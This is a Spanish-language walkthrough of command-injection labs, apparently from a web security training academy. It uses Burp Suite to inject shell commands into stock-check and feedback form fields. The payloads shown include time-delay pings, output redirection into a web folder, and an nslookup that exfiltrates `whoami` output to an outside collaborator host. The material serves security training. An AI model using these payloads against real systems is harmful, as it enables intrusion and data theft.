 # Os Command Injection

## Executing arbitrary commands

### Lab 1: OS command injection, simple case

Entramos a algún producto y usamos el boton check stock pero esto lo haremos usando burp suite interceptando la consulta.
![command1.1.png](command1.1.png)

Lo mandamos al repeater donde podremos modificarlo y enviar el paquete. Usaremos la siguiente consulta:

```
productId=2&storeId=1 ; id
```

![command1.2.png](command1.2.png)

## Blind OS command injection vulnerabilities

### Detecting blind OS command injection using time delays

#### Lab 2: Blind OS command injection with time delays

Interceptamos el envío del feedback con Burp suite.

![command3.1.png](command3.1.png)

Probamos en los parametros en cual funciona agregarle `||ping+-c+10+127.0.0.1||`, el que funciona es el parametro email.

```
...
csrf=AH3gDeLKQ9z9wuUelG8ExXglulKqw6Bt&name=Gatoto&email=gato@gmail.com||ping+-c+10+127.0.0.1||&subject=adfsad&message=asdfasd
```

El resultado debería demorar por lo menos 10 segundos.

### Exploiting blind OS command injection by redirecting output

#### Lab 4: Blind OS command injection with output redirection
Interceptamos el paquete al enviar el feedback como el laboratorio anterior pero esta vez enviamos el resultado a la carpeta `/var/www/images`. Guardaremos la respuesta en un txt.

```
...
csrf=v8X6Ld2i21GljQMqjB9CKjDzrCqpSrhO&name=asdfasd&email=gato%40gmail.com||whoami>/var/www/images/miau.txt||&subject=asdas&message=asdasd
```

Ahora podremos ver el resultado en `https://acad1f931ec1c55bc03570a8007f0058.web-security-academy.net/image?filename=miau.txt`.

### Exploiting blind OS command injection using out-of-band (OAST) techniques

#### Lab 5: Blind OS command injection with out-of-band interaction

Interceptamos la consulta igual que los anteriores laboratorios.

Usaremos el **Burp Collaborator Client** para recepcionar las consultas externas.

![command5.1.png](command5.1.png)

Presionamos la opción de `copy to clipboard`, en nuestro caso nos copio la dirección `5x3n5ni2nt8kgaozaa78zab4mvsmgb.burpcollaborator.net`.

```
...
csrf=S1bia6kmPluBfw6osSYf7l0Q4ieyFGDt&name=asdf&email=gato%40gmail.com||nslookup+5x3n5ni2nt8kgaozaa78zab4mvsmgb.burpcollaborator.net||&subject=asdfsdf&message=asdfsad
```

Obtenemos los resultados en el burp collaborator.

![command5.2.png](command5.2.png)


#### Lab 6: Blind OS command injection with out-of-band data exfiltration

```
...
csrf=j0THGLFofHZKTMBkm5YE3ZTfkaTTSiQT&name=asdfas&email=gato%40gmail.com||nslookup+`whoami`.zsv3zamskchm3cmvtmioea5h187yvn.burpcollaborator.net||&subject=asdfasdf&message=asdfasd
```

![command6.1.png](command6.1.png)

